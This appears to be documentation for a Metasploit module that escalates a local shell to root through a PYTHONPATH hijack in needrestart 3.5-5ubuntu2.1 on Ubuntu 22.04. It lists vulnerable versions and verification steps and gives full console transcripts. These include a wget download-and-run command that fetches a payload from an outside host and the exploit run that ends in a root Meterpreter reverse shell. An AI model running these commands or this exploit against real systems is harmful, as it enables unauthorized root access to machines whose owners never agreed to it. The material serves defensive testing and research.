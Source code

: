 ## Vulnerable Application

Local attackers can execute arbitrary code as root by
tricking needrestart into running the Python interpreter with an
attacker-controlled PYTHONPATH environment variable.

Verified against Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Exploitation against vulnerable needrestart versions on
Debian 12 and Fedora 39 were unsuccessful
however install and run instructions are listed below.

### Debian 

Install: `apt-get install needrestart=3.6-4+deb12u1`

Binary location: `/usr/sbin/needrestart`

### Fedora 39

Install: `dnf install needrestart-3.6-9.fc39.noarch`

Binary location: `/usr/sbin/needrestart`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell
4. Do: `use exploit/linux/local/ubuntu_needrestart_lpe`
5. Do: `set lhost <ip>`
6. Do: `set lport <port>`
7. Do: `set session <session>`
8. Do: `run`
9. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Gain initial shell

```
msf6 > use exploit/multi/script/web_delivery
998
run[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set lport 4998
lport => 4998
msf6 exploit(multi/script/web_delivery) > set srvport 8998
srvport => 8998
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4998 
[*] Using URL: http://1.1.1.1:8998/dKtdkMS
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Ejq8lHli --no-check-certificate http://1.1.1.1:8998/dKtdkMS; chmod +x Ejq8lHli; ./Ejq8lHli& disown
[*] 2.2.2.2   web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4998 -> 2.2.2.2:52004) at 2024-11-22 12:07:55 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: h00die
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/ubuntu_needrestart_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lport 4977
lport => 4977
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set session 1
session => 1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > run

[*] Started reverse TCP handler on 1.1.1.1:4977 
[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Vulnerable needrestart version 3.5-5ubuntu2.1 detected on Ubuntu 22.04
[*] Writing '/tmp/.1K8Hy2tOtq' (250 bytes) ...
[*] Uploading payload: /tmp/.1K8Hy2tOtq
[*] Creating directory /tmp/importlib
[*] /tmp/importlib created
[*] Uploading c_stub: /tmp/importlib/__init__.so
[*] Uploading py_script: /tmp/.FzzlJ
[*] Launching exploit, and waiting for needrestart to run...
```

On the remote Ubuntu box run `sudo needrestart`

```
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] chown: changing ownership of '/tmp/.1K8Hy2tOtq': Operation not permitted
[*] Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:
[*] 
[*]   Traceback (most recent call last):
[*]     File "/usr/lib/python3.10/site.py", line 192, in addpackage
[*]       exec(line)
[*]     File "<string>", line 1, in <module>
[*]   ImportError: dynamic module does not define module export function (PyInit_importlib)
[*] 
[*] Remainder of file ignored
[*] #########################
[*] 
[*] Dont mind the error message above
[*] 
[*] Waiting for needrestart to run...
[*] Payload owned by: root
[+] Deleted /tmp/.1K8Hy2tOtq
[+] Deleted /tmp/.FzzlJ
[+] Deleted /tmp/importlib
[*] Meterpreter session 2 opened (1.1.1.1:4977 -> 2.2.2.2:57644) at 2024-11-22 12:08:28 -0500

meterpreter > 
meterpreter > getuid
Server username: root
```
